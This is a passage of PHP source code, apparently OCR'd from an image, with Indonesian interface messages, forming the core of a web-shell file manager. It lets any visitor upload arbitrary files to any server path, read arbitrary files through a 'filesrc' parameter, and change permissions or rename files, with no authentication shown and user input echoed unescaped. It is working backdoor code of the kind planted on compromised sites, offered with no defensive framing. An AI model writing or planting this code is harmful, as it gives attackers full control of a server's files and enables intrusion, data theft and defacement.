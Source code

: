 foreach($paths as $id=>$pat){
if($pat == '' && $id == 0){
$a = true;
echo '<a href="?path=/">/</a>';
continue;
}
if($pat == '') continue;
echo '<a href="?path=';
for($i=0;$i<=$id;$i++){
echo "$paths[$i]";
if($i != $id) echo "/";
}
echo '">'.$pat.'</a>/';
}
echo '</td></tr><tr><td>';
if(isset($_FILES['file'])){
if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){
echo '<font color="green">Upload Berhasil</font><br />';
}else{
echo '<font color="red">Upload Gagal</font><br/>';
}
}
echo '<form enctype="multipart/form-data" method="POST">
<font color="white">File Upload :</font> <input type="file" name="file" />
<input type="submit" value="upload" />
</form>
</td></tr>';
if(isset($_GET['filesrc'])){
echo "<tr><td>Current File : ";
echo $_GET['filesrc'];
echo '</tr></td></table><br />';
echo('<pre>'.htmlspecialchars(file_get_contents($_GET['filesrc'])).'</pre>');
}elseif(isset($_GET['option']) && $_POST['opt'] != 'delete'){
echo '</table><br /><center>'.$_POST['path'].'<br /><br />';
if($_POST['opt'] == 'chmod'){
if(isset($_POST['perm'])){
if(chmod($_POST['path'],$_POST['perm'])){
echo '<font color="green">Change Permission Berhasil</font><br/>';
}else{
echo '<font color="red">Change Permission Gagal</font><br />';
}
}
echo '<form method="POST">
Permission : <input name="perm" type="text" size="4" value="'.substr(sprintf('%o', fileperms($_POST['path'])), -4).'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="chmod">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'rename'){
if(isset($_POST['newname'])){
if(rename($_POST['path'],$path.'/'.$_POST['newname'])){
echo '<font color="green">Ganti Nama Berhasil</font><br/>';
}else{
echo '<font color="red">Ganti Nama Gagal</font><br />';
}
$_POST['name'] = $_POST['newname'];
}
echo '<form method="POST">
New Name : <input name="newname" type="text" size="20" value="'.$_POST['name'].'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="rename">
<input type="submit" value="Go" />
</form>';